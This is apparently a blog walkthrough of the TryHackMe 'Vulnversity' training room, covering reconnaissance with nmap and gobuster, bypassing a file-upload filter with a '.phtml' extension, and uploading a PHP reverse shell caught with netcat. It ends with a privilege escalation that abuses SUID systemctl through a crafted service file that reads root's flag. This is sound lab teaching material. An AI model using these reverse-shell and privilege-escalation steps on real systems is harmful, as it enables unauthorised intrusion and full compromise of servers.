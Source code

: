 ```yaml
---
title: "Vulnversity - TryHackMe"
author: krishna
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [privesc, pentest, ctf]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](../../assets/img/tryhackme/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](../../assets/img/tryhackme/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](../../assets/img/tryhackme/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](../../assets/img/tryhackme/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](../../assets/img/tryhackme/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```terminal
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](../../assets/img/tryhackme/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](../../assets/img/tryhackme/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

	* `find` to search

	* `/` to start from the topmost directory

	* `-perm` to specify permission value

	* `-4000` to specify SUID permission value of exactly 4000

	* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](../../assets/img/tryhackme/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```terminal
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](../../assets/img/tryhackme/vulnversity/vuln9.png)